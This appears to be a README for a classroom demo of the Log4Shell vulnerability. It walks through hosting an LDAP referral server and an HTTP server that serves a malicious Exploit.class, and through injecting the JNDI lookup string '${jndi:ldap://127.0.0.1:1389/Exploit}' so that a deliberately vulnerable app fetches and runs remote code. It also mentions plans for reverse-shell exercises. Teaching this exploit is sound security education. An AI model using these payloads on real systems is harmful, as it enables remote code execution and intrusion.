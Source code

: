 # Demos

## Plans
In our lecture, we plan to show a progression of malicious intent. From polluting the vulnerableApp logs to getting an application to open remotely and then finally, we'll attempt to set up a reverse shell to the application server in a real world example.

This demo focuses on getting an application to run from the vulnerableApp's server. This demo can be used to show the progression from polluting logs to opening an application by entering these strings respectively `${java:version}` and `${jndi:ldap://127.0.0.1:1389/Exploit}.`

For the lab, we're planning to provide the class wiith this website to complete the exercises while we provide support. However, if using a premade lab is not allowed, we will create a similar exercise to get reverse shell access on a real life application (that we create) or a Minecraft server hack on a server running an old version of log4j.

## Demo 1
We have created a vulnerableApp which can be exploited via Log4J vulnerability. 

A basic description on what is happening is:
- vulnerableApp is running
- We as an attacker host a LDAP server and a HTTP server (which contains our Exploit.class, i.e. malicious code)
- Then the hacker sends a string like `${jndi:ldap://127.0.0.1:1389/Exploit}` as an input. 
- This vulnerableApp will then make the remote call to the LDAP server which redirects to our HTTP server which sends the Exploit.class to the vulnerableApp. The app then does class loading which runs our malicious code on their end.

## Requirements
- [ ] Max Java 1.8.18
- [ ] Log4J Version 2.14.1 (Core and API)
- [ ] Python3 (creating http server)

## Commands
All commands shd be run from the `/poc` directory

Start HTTP Server
```
python3 -m http.server 8000

```

Create LDAP Server and Connect to HTTP
```
java -cp ./target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit"

```

Run the vulnerableApp and provide this string: `${jndi:ldap://127.0.0.1:1389/Exploit}` when prompted for input

You should see the effect of the command specified in Exploit.java on your system
